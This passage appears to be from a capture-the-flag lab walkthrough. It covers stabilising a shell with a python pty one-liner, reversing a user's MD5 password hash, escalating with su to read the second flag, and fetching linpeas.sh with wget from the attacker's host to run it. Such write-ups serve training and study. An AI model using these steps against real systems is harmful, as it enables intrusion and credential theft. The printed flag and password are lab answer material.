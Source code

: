 ## getting a proper tty shell 
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl-z
stty raw -echo; fg
hit enter twice
export TERM=xterm // so i can clear the screen
```

##  so let's go to the/home/ directory, where there was a single home directory for a user named robot; which included the second key! found 2 files one of them is the second flag we don't have read access and the other is password.raw-md5 which contain robot:c3fcd3d76192e4007dfb496cca67e13b username and this looks like a md5 hash because this is 32 char and this is the md5 structure let's google this hash and see 
```# MD5 reverse for c3fcd3d76192e4007dfb496cca67e13b

```bash 
The MD5 hash:  
c3fcd3d76192e4007dfb496cca67e13b  
was succesfully reversed into the string:  
abcdefghijklmnopqrstuvwxyz // this is the password

Feel free to provide some other MD5 hashes you would like to try to reverse.
```

## try to su -robot and then enter the password and we are escelate to robot user! 

```bash
daemon@linux:/home/robot$ su - robot  
Password:    
$ bash  
robot@linux:~$ cat    
key-2-of-3.txt    password.raw-md5     
robot@linux:~$ cat key-2-of-3.txt    
822c73956184f694993bede3eb39f959  // second flag
robot@linux:~$
```

## let's run linpeas script to check for privilege escalation but first let's transfer linpeas to the machine 
```bash
wget 192.168.56.1/linpeas.sh
chmod +x linpeas.sh // make it executable
./linpeas.sh // run it
```
